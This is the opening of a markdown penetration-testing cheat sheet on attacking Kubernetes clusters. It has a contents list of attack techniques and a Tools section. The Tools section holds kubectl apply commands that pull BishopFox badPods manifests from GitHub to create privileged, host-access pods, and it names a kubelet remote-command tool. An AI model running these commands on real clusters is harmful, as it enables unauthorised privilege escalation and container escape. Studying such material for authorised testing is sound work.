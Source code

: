 # Kubernetes

> Kubernetes, often abbreviated as K8s, is an open-source container orchestration platform designed to automate the deployment, scaling, and management of containerized applications. It was originally designed by Google, and is now maintained by the Cloud Native Computing Foundation.

## Summary

- [Tools](#tools)
- [Container Environment](#container-environment)
- [Information Gathering](#information-gathering)
- [RBAC Configuration](#rbac-configuration)
    - [Listing Secrets](#listing-secrets)
    - [Access Any Resource or Verb](#access-any-resource-or-verb)
    - [Pod Creation](#pod-creation)
    - [Privilege to Use Pods/Exec](#privilege-to-use-podsexec)
    - [Privilege to Get/Patch Rolebindings](#privilege-to-getpatch-rolebindings)
    - [Impersonating a Privileged Account](#impersonating-a-privileged-account)
- [Privileged Service Account Token](#privileged-service-account-token)
- [Kubernetes Endpoints](#kubernetes-endpoints)
- [Exploits](#exploits)
    - [Accessible kubelet on 10250/TCP](#accessible-kubelet-on-10250tcp)
    - [Obtaining Service Account Token](#obtaining-service-account-token)
- [References](#references)

## Tools

- [BishopFox/badpods](https://github.com/BishopFox/badpods) - A collection of manifests that will create pods with elevated privileges.

    ```ps1
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
    ```

- [serain/kubelet-anon-rce](https://github.com/serain/kubelet-anon-rce) - Executes commands in a container on a kubelet endpoint that allows anonymous authentication
- [DataDog/KubeHound](https://github.com/DataDog/KubeHound) - Kubernetes Attack Graph
